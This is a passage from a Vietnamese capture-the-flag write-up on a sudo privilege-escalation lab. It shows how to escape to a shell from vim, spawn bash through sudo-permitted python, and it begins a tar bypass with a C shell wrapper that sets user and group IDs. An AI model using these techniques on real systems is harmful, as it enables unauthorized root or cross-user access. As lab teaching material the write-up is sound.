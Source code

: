 Gõ lần lượt 2 lệnh sau:

```
:set shell=/bin/sh                                              //hoặc /bin/sh
:shell
```


#### Level 2

Tại đây ta sẽ có một sh shell (hoặc bash shell). Sử dụng sudo -l theo như Attention của bài:

![](https://images.viblo.asia/7bc0174f-47c3-4250-8dd7-ff5884c3a1f3.png)

30s quảng cáo: Các bạn có thể đọc bài leo thang đặc quyền qua Sudo Rights của mình tại [đây](https://kgcg.wordpress.com/2020/01/13/leo-thang-dac-quyen-trong-linux-linux-privilege-escalation-0-using-sudo-rights/).

User **app-script-ch14-2** (có lẽ ngụ ý là level 2) có thể chạy /usr/bin/python với quyền sudo mà không cần nhập password. Dùng python để spawn một bash shell:

```
/usr/bin/sudo -u app-script-ch14-2 /usr/bin/python
```
```
>>> import os
>>> os.system('/bin/bash')
```

![](https://images.viblo.asia/d2338d9f-4a01-4a3c-958d-dfe7c5bc8296.png)



#### Level 3

Tiếp tục sudo -l để kiểm tra, vậy là chúng ta đang đối mặt với level 3: **tar**

![](https://images.viblo.asia/175d5d62-598c-4050-be8a-f8c8cd86bb4d.png)

Ở document mình giới thiệu phía trên đã bao gồm cách bypass với tar. Cùng với đó là một số thông tin mà khi mới SSH vào chúng ta được cho:

![](https://images.viblo.asia/2f53e9be-e2bb-4301-bf6b-2f46ddd9d70c.png)


Tạo một file **shell.c** ở /tmp/ với nội dung như sau:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
int main(int argc, char **argv, char **envp)
{
	setresgid(getegid(), getegid(), getegid());
	setresuid(geteuid(), geteuid(), geteuid());

	execve("/bin/sh", argv,  envp);
	return 0;
}
```
